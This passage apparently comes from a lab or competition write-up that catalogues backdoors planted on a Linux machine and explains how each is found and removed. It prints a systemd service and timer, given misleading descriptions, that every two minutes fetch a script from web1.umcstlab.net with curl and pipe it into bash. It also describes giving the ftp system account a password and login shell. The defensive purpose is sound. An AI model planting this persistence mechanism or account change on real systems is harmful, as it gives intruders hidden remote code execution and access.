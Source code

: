 ```
[Unit]
Description=Prints date into /tmp/date file

[Service]
Type=oneshot
ExecStart=/bin/bash -c "/usr/bin/curl web1.umcstlab.net:8080/run.sh | /bin/bash"

```

/etc/systemd/system/cleanup.timer

```
[Unit]
Description=Import system configuration

[Timer]
OnCalendar=*:0/2

[Install]
WantedBy=timers.target
```

### How to find it

Finding this was a bit of a challenge because nobody really uses
SystemD timers for anything. You can see all the timers by running
`systemctl list-timers`. It is pretty unlikely that anyone would find this
without monitoring network traffic (`tcpdump`).

### How to prevent it

Stop and disable the systemD timer `sudo systemctl stop cleanup.timer && sudo systemctl disable cleanup.timer`.

## Backdoor 6

An existing system account for the FTP server was repurposed for use by the hackers.

### Base system

Since it's no longer 1983, most of our computers have only a single user.
On Linux, instead of using accounts for users accounts are often used for
services and applications. Most Linux distros come with a bunch of system accounts
enabled by default. The accounts aren't suppossed to be used by humans, only
by programs. They have no password and no login shell, which prevents their use.

### The Backdoor

The `ftp` account was given a login shell and a password.

### How to find this

Again, this could be spotted by looking at `/etc/passwd`.
